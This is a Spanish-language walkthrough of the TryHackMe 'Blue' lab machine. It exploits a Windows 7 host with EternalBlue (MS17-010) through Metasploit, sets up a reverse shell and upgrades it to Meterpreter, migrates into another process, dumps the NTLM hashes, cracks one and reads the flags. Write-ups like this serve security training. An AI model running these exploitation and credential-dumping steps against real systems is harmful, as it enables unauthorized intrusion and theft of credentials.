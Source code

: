 # Máquina Blue

## Dificultad: Fácil

![Logo](img/blue.webp)

Empezamos haciendo un ping a la máquina objetivo. Vemos que está activa y por el ttl de 128, sabemos que es una máquina Windows.

```bash
ping -c 1 10.10.12.50
```

![Ping](img/ping.webp)

Para enumerar, voy a usar nmap, con -sC para usar los scripts de reconocimiento por defecto,-sV para detectar versiones de los servicios, -sS para que sea en modo sigiloso, y -p- para que escanee todos los puertos.

```bash
nmap -p- -sV -sC -sS 10.10.12.50
```

![nmap](img/nmap.webp)

De los puertos abiertos, los que más me llaman la atención son el **445**, que es el puerto de SMB, un puerto crítico por dónde puede haber vulnerabilidades, y el **3389**, que es el de RDP, otro que podría ser utilizado.  La versión de Windows: **Windows 7 Professional 7601 Service Pack 1 microsoft-ds**, el nombre del Host: **JON-PC**, de lo que deducimos que hay un usuario llamado Jon en la máquina. Vemos que tanto **SMBv1** (smb-security-mode) como **SMBv2** (smb2-security-mode) están activos.

Ahora tenemos que encontrar alguna vulnerabilidad que explotar.

Lo primero que se me ocurre es buscar en Google la versión de Windows que usa para ver si tiene vulnerabilidades. Buscanddo en Google sobre esta versión del SO encontré esto:

![EternalBLue](img/eternalblue.webp)

Vemos que EternalBlue es un exploit que afecta a SMBv1 y entre otras la versión de Windows de la máquina objetivo. Este exploit permite ejecutar código remote en la máquina objetivo. Si bien ya fue parcheado, no sabemos si la máquina que atacamos ha sido parcheada. Podemos probarlo.

Abrimos metasploit con el comando:

```shell
msfconsole
```
Buscamos el exploit con:

```shell
search ms17-010
```

![Exploit](img/exploit.webp)

Seleccionamos el exploit con:

```shell
use 0
```

El payload que usa por defecto es suficiente, y nos dará acceso a la máquina con una shell inversa de Meterpreter pero, Tryhackme, para que practiquemos el paso de una shell normal de Windows a una shell de Meterpreter, nos sugiere usar en su lugar el siguiente payload para obtener una shell inversa normal de Windows:

```shell
set payload windows/x64/shell/reverse_tcp
```

![Payload](img/payload.webp)

Debemos ajustar la dirección del host remoto.

```shell
set RHOSTS 10.10.12.50
```

Y el host local. Vemos nuestra ip con el comando:

```shell
ip a
```

Y lo ajustamos:

```shell
set LHOST 10.10.162.56
```
Ahora ejecutamos el exploit con:

```shell
run
```

Efectivamente, la máquina es vulnerable al explot EternalBlue, si todo ha salido bien, deberíamos ver algo similar a esto:

![Run](img/run.webp)

Ya tenemos la shell inversa de Windows. Ahora dejamos la sesión en segundo plano con **ctrl + z** Y vamos  usar el módulo **post/multi/manage/shell_to_meterpreter** para realizar la escalada de privilegios a la shell de meterpreter.

Ahora tenemos que especificarle la sesión en la que conseguimos la shell inversa. Lo podemos comprobar con el comando:

```shell
sessions -l
```

Si solo has hecho esto será la 1.

Ahora usamos **run** para ejecutar el exploit. Este paso puede dar problemas en esta máquina, a mi me falló la primera vez y tuve que reiniciar la máquina, por eso tiene una ip distinta ahora. Si sale bien veremos algo similar a esto:

![Meterpreter](img/meterpreter.webp)

Ahora tenemos usa sesión con la shell inversa de meterpreter, que es la sesión 2. La activamos con el comando:

```shell
sessions -i 2
```

Ya la tenemos, podemos usar **whoami** para comprobar que tenemos los privilegios nt authority\system:

![whoami](img/whoami.webp)

Nosotros tenemos privilegios de administrador, pero nuestro proceso puede no tenerlos. Por tanto, vamos a migrar a un proceso que los tenga, usamos **ps** para listar los procesos:

![pid](img/pid.webp)

En mi caso voy a migrar a conhost.exe, intenté previamente migrar a svchost.exe pero me negaba el acceso. Para ellos usamos el comando **migrate** indicando el PID del proceso:

```shell
migrate 352
```

![migrate](img/migrate.webp)

Ahora se nos pide la contraseña del usuario Jon. Vamos a usar **hashdump** para obtener el hash de la misma:

![hashdump](img/hashdump.webp)

Ahora hay varias formas de crackear el hash. Podríamos usar John the Ripper y tratar de sacarlo mediante listas de palabras, yo he usado Crackstation por ser más rápido.

![CrackStation](img/crackstation.webp)

Ahora, para la primera bandera, nos dicen que está en la raíz del sistema. Que lo normal es que sea C:

```shell
cd C:\\
ls
cat flag.txt
```
![flag1](img/flag1.webp)

Nos dicen que la segunda bandera está dónde se almacenan las contraseñas de Windows. Es decir en **C:\Windows\System32\config**

```shell
cd C:\\Windows\\System32\\config
ls
cat flag2.txt
```

![flag2](img/flag2.webp)

La bandera 3, nos dicen que está dónde los administradores suelen guardar cosas importantes. Voy por tanto a C:\Users y el único usuario es Jon. Dentro de Jon, busco en Desktop, Downloads, y finalmente Documents, dónde se encuentra la última bandera.

![flag3](img/flag3.webp)

Por cierto, cuando te das cuenta de que se van a llamar flag1.txt, flag2.txt, etc, meterpreter tiene el comando **search -f** al que le pasas el nombre del fichero y te muestra la ruta al mismo. Ejemplo con flag3.txt:

```shell
search -f flag3.txt
```

![search](img/altenativa.webp)

Y con esto ya hemos resuelto la máquina.

![fin](img/fin.webp)